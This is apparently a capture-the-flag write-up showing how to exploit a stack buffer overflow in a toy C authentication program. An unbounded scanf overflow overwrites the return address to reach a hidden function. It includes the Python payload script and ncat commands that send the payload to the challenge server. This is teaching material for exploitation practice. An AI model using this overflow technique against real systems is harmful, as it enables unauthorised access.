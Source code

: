 # Access Terminal

## Description
```
I found this self written authentication service that protects my friend' server terminal.

He told me he wrote it in C and copied most of the code from ChatGPT but ensured me that it is absolutely bullet-proof, or is it?
```

## Writeup

This is a simple reversing challenge with the goal of overwriting a return address of a C program.
If we inspect the source code we can observe that the program itself does not call our interesting `access_terminal` function.

```c
int main()
{
  start();
  puts("Not so easy!");
  fflush(stdout);
  return 0;
}
```

But we can see that it utilizes an unsafe way of reading the user input using `scanf()`, so we have to find out how we can precisely
overflow this input in a way that it overwrites the `RIP` register and point it to `access_terminal`.

```c
void start()
{
  char input [16];
  printf("%p\n",start);
  fflush(stdout);
  puts("Tell me the access word:");
  fflush(stdout);
  scanf("%s",input);
  return;
}
```

By trying out some iterations of `A`'s, we find out that a `Segmentation Fault` occurs at 24 times `A`.

So the only thing left to do is to use a tool like `objdump` to find out the address of `access_terminal`.

```bash
objdump -d server
# output omitted ...
0000000000401166 <accessTerminal>:
  401166:       55                      push   %rbp
  401167:       48 89 e5                mov    %rsp,%rbp
# output omitted ...
```

We have to iterate the base address by one to correctly start at the functions first instruction which gives us `0x401167`.
By now we have our full payload string and can incorporate it into a simple python script that assembles everything for us.

```py
import sys

return_address = b"\x40\x11\x67"[::-1]
payload=b"A"*24 + return_address

sys.stdout.buffer.write(payload)
```

Notice that the hex string is reversed because we run this on an AMD/Intel x86 System, which works with little_endian notation.

We can test this locally by piping it directly into the binary

```bash
python exploit.py | ./server
```

To do this remotely we f.E. use it in conjunction with `ncat`

```bash
python exploit.py | ncat 1.2.3.4 1337
```

This should get us access and print the flag.

